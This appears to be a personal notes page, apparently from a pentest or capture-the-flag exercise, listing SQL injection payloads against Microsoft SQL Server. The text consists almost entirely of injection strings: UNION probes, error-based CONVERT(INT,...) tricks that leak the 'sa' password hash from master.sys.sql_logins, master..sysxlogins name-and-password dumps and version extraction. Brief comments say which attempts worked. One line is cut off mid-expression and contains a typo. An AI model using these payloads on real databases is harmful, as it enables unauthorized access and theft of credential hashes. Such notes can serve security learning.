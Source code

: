' UNION SELECT 1,2,3,4'


SELECT  CASE WHEN COALESCE([dbo].[my-table].[field],"") = '...' THEN 'A'       WHEN COALESCE([dbo].[my-table].[field],"") = '...' THEN 'B'


"SELECT * FROM users WHERE news_id=1


AND 1=CONVERTNVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM [username]..[email] )+CHAR(58)+CH


',CONVERT(INT,(SELECT DISTINCT top 1 master.dbo.fn_varbintohexstr(password_hash) from master.sys.sql_logins WHERE name='sa')))) --

SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins


");SELECT name, password FROM master..sysxlogins

# somewhat working
');'SELECT name, password FROM master..sysxlogins--


");SELECT name, password FROM master..sysxlogins

',CONVERT(INT,(SELECT DISTINCT top 1 master.dbo.fn_varbintohexstr(password_hash) from master.sys.sql_logins WHERE name='sa')))) --


",CONVERT(INT,(SELECT DISTINCT top 1 master.dbo.fn_varbintohexstr(username) from master.sys.sql_logins WHERE name='sa')))) --

#broughtbackresults
"SELECT name, password_hash FROM master.sys.sql_logins

![[1. sql1.png]]

# gave some results
'+CONVERT(INT,users(1))--

![[2. sql2.png]]


1',CONVERT(INT,user_name(1))--


# worked, got version
# noticed have to add additional parenthesis

',convert(int,@@version))--

![[3. sqli 3.png]]
